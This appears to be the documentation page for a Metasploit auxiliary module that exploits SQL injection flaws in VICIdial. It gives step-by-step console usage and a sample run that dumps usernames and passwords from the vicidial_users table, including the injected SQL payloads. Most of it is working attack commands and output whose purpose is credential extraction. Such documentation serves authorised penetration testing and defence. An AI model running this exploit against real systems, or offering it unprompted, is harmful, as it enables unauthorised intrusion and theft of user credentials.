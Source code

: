 1. Start msfconsole
1. Do: `use auxiliary/scanner/http/vicidial_multiple_sqli`
1. Do: `set username <username>`
1. Do: `set password <password>`
1. Do `show actions`
   1. Select from the list or keep the default
1. Do: `run`
1. The module will exploit the selected SQL injection and return the extracted usernames and passwords

## Options

### Password

Password for the vicidial instance that corresponds to the username.

### Username

Username for the user to login with. Defaults to admin username of `6666`.

## Scenarios

### ViciBox 9.0.3 - List Users - modify_email_accounts method

```
msf use auxiliary/scanner/http/vicidial_multiple_sqli
msf auxiliary(scanner/http/vicidial_multiple_sqli) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf auxiliary(scanner/http/vicidial_multiple_sqli) > set verbose true
verbose => true
msf auxiliary(scanner/http/vicidial_multiple_sqli) > set password notpassword
password => notpassword
msf auxiliary(scanner/http/vicidial_multiple_sqli) > set action List Users - modify_email_accounts method
action => List Users - modify_email_accounts method
msf auxiliary(scanner/http/vicidial_multiple_sqli) > run

[*] Enumerating Usernames and Password Hashes
[*] {SQLi} Executing (select group_concat(TXMlUAF) from (select cast(concat_ws(';',ifnull(user,''),ifnull(pass,'')) as binary) TXMlUAF from vicidial_users limit 3) jUFFwQn)
[*] {SQLi} Encoded to (select group_concat(TXMlUAF) from (select cast(concat_ws(0x3b,ifnull(user,repeat(0x87,0)),ifnull(pass,repeat(0x52,0))) as binary) TXMlUAF from vicidial_users limit 3) jUFFwQn)
[*] {SQLi} Time-based injection: expecting output of length 46
[!] No active DB -- Credential data will not be saved!
[+] Dumped table contents:
vicidial_users
==============

 user  pass
 ----  ----
 6666  notpassword
 VDAD  donotedit
 VDCL  donotedit

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
